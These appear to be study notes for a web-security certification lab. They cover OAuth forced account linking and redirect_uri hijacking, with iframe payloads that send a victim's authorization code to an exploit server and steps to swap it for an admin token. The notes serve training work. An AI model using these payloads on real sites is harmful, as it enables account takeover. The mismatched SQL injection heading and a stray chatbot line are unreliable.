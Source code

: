  ## Lab: Blind SQL injection with conditional responses
 
 
 ### **Forced Authentication Linking to Get Admin Access**  

- Gain admin access by exploiting the absence of the `state` parameter in OAuth linking.  
- Find the linking code and send it to the victim using an exploit server.  

#### **Steps to Execute the Attack:**  

1. **Find the Authentication Linking Code**  
   - Capture the linking request but **do not log out** of your account.  

2. **Send the Exploit to the Victim**  
   - Use an iframe to send the linking request:  
     ```html
     <iframe src="<auth_link>"></iframe>
     ```
   - Wait for the victim to click the link.  

3. **Complete the Exploit**  
   - Log out of your account.  
   - Log in again using "Log in with Social Media" to gain access to the victim’s linked account.  



Here's a more concise version of your notes for the BSCP exam:

---

### **OAuth Redirect URI Hijacking (Exploiting OAuth Flow)**

**Objective:**  
Hijack the `redirect_uri` in OAuth flow to steal the authorization code, gain unauthorized access, and potentially escalate privileges (e.g., admin access).

---

### **Steps to Exploit OAuth Flow:**

1. **Intercept OAuth Request**  
   - Use **Burp Suite** to capture the client request containing `client_id` and `redirect_uri`.

2. **Modify the `redirect_uri`**  
   - Change the `redirect_uri` to your **exploit server** URL (e.g., `https://exploit-server.net`).

   **Example payload:**
   ```html
   <iframe src="https://oauth-server.net/auth?client_id=<client_id>&redirect_uri=https%3A%2F%2Fexploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
   ```

3. **Send the Malicious Link to Victim**  
   - Deliver the modified URL to the victim (via phishing or XSS).  
   - When the victim logs in, the **authorization code** is sent to your exploit server.

4. **Capture the Authorization Code**  
   - Check the **exploit server logs** for the stolen **authorization code**.

5. **Use the Authorization Code**  
   - Exchange the stolen authorization code for an **access token** via the OAuth callback (`/oauth/callback`).

6. **Gain Admin Access**  
   - If targeting an admin account, use the **stolen access token** to gain admin access and perform privileged actions (e.g., delete users).

---